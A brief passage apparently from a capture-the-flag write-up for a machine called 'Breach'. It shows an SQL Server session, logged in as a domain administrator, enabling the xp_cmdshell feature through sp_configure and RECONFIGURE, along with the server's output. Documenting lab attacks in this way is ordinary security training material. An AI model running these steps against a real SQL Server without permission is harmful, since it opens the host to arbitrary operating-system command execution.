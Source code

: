 ![](../img/31.png)

Enable xp_cmdshell:
```
SQL (BREACH\Administrator  dbo@master)> EXEC sp_configure 'show advanced options', 1;
[*] INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (BREACH\Administrator  dbo@master)> RECONFIGURE;
SQL (BREACH\Administrator  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (BREACH\Administrator  dbo@master)> RECONFIGURE;
```